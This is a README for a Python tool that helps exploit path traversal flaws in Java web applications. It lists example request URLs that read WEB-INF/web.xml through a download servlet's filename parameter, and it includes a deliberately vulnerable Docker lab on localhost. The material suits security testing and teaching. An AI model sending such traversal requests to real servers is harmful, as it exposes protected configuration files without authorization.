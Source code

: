 ### WebXMLExp.py

Tool for helping in the exploitation of path traversal vulnerabilities in Java web applications.

## Install

Run the following command:
```
pip install -r requirements.txt
```
## Usage:

After installation provide an exploit URL like so:
```
usage: python WebXMLExp.py <url_with_web_xml_exploit_or_inject_here_marker>
```

### Examples

```
python WebXMLExp.py "http://127.0.0.1:8082/vulnerable/download.servlet?filename=WEB-INF/web.xml"
python WebXMLExp.py "http://127.0.0.1:8082/vulnerable/download.servlet?filename=<INJECT-HERE>"
```

## Vulnerable web application docker image

A web application vulnerable to a path traversal vulnerability is provided in the **docker** folder.

To start, enter into the **docker** folder and run:

```
docker-compose up
```

The application is accessible at  **http://127.0.0.1:8082/vulnerable/**.

To exploit the the path traversal vulnerability visit:
http://127.0.0.1:8082/vulnerable/download.servlet?filename=WEB-INF/web.xml
